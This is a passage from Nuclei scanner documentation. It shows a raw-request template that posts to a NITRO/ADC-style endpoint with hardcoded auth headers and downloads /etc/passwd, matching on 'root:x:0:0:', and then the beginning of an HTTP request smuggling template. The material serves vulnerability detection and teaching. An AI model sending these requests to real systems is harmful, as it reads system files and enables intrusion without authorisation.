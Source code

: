       - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - \"(?m)[0-9]{3,10}\\.[0-9]+\"

    matchers:
      - type: regex
        regex:
          - \"root:[x*]:0:0:\"
        part: body
```

# Advanced HTTP

### Unsafe HTTP
Learn about using rawhttp or unsafe HTTP with Nuclei
Nuclei supports rawhttp for complete request control and customization allowing any kind of malformed requests for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

rawhttp library is disabled by default and can be enabled by including unsafe: true in the request block.

Here is an example of HTTP request smuggling detection template using rawhttp.

```
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked
